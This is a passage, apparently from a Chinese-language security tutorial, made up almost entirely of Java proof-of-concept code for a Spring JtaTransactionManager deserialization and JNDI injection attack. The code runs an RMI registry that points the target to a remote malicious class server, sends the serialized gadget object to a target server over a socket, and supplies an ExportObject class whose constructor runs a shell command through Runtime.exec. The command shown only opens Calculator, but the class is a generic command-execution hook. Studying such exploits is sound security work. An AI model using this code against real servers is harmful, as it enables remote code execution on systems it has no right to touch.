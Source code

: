 ```java
            System.out.println("Creating RMI Registry"); //绑定RMI服务到 1099端口 Object  提供恶意类的RMI服务
            Registry registry = LocateRegistry.createRegistry(1099);
            /*
            java为了将object对象存储在Naming或者Directory服务下，
            提供了Naming Reference功能，对象可以通过绑定Reference存储在Naming和Directory服务下，
            比如（rmi，ldap等）。在使用Reference的时候，可以直接把对象写在构造方法中，
            当被调用的时候，对象的方法就会被触发。理解了jndi和jndi reference后，
            就可以理解jndi注入产生的原因了。
             */ //绑定本地的恶意类到1099端口
            Reference reference = new javax.naming.Reference("ExportObject","ExportObject","http://"+serverAddress+":8080"+"/");
            ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(reference);
            registry.bind("Object", referenceWrapper);

            System.out.println("Connecting to server "+serverAddress+":"+port); //连接服务器1234端口
            Socket socket=new Socket(serverAddress,port);
            System.out.println("Connected to server");
            String jndiAddress = "rmi://"+localAddress+":1099/Object";

            //JtaTransactionManager 反序列化时的readObject方法存在问题 //使得setUserTransactionName可控，远程加载恶意类
            //lookup方法会实例化恶意类，导致执行恶意类无参的构造方法
            org.springframework.transaction.jta.JtaTransactionManager object = new org.springframework.transaction.jta.JtaTransactionManager();
            object.setUserTransactionName(jndiAddress);
            //上面就是poc,下面是将object序列化发送给服务器，服务器访问恶意类
            System.out.println("Sending object to server...");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(socket.getOutputStream());
            objectOutputStream.writeObject(object);
            objectOutputStream.flush();
            while(true) {
                Thread.sleep(1000);
            }
        } catch(Exception e) {
            e.printStackTrace();
        }
    }
}
```
最后，创建一个`ExportObject`需要远程下载的类：
```java
public class ExportObject {

    public static String exec(String cmd) throws Exception {
        String sb = "";
        BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
        BufferedReader inBr = new BufferedReader(new InputStreamReader(in));
        String lineStr;
        while ((lineStr = inBr.readLine()) != null)
            sb += lineStr + "\n";
        inBr.close();
        in.close();
        return sb;
    }
    public ExportObject() throws Exception {
        String cmd="open /Applications/Calculator.app/";
        throw new Exception(exec(cmd));
    }
}
```